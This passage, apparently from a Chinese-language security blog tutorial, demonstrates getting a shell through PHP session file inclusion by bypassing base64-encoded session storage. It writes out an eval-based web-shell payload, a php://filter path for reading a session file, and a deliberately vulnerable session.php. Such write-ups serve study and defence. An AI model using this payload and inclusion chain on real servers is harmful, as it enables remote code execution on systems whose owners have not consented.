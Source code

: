 ```php
username=nmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnmnm<?php eval($_REQUEST[1]);?>
```

然后我们去文件包含一下看看多少个字符



<img src="https://i-blog.csdnimg.cn/blog_migrate/3a43ab9235357603b6c686871dee3a44.png" alt="" style="max-height:66px; box-sizing:content-box;" />


这里就实现咯

```cobol
user name s108 bm1u .....
```

然后我们通过过滤器读取吧

```cobol
php://filter/convert.base64-decode/resource=C:\Users\Administrator\AppData\Local\Temp\sess_4794cc8f9f63ed29d97daf155ee94ef2
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a01c80d09e7ea3c23d274794f7420e61.png" alt="" style="max-height:222px; box-sizing:content-box;" />


直接就可以getshell了



<img src="https://i-blog.csdnimg.cn/blog_migrate/65d75ecb2ca79be5027e18ce35ce074f.png" alt="" style="max-height:640px; box-sizing:content-box;" />


这里原本通过vscode起来的本地环境无法使用蚁剑链接 也不知道为什么

然后通过小皮就可以了

这里我们就实现了 bypass serialize_handler = php 的base64加密存储session

接下来就是另一个了

#### bypass serialize_handler = php_serialize

说完上面的 现在说说序列化怎么办

session.php

```php
<?php
 
    ini_set('session.serialize_handler', 'php_serialize');    
    session_start();
    $username = $_POST['username'];
    $_SESSION['username'] = base64_encode($username);
    echo "username -> $username";
 
?>
```

我们一样 先传递木马上去看看
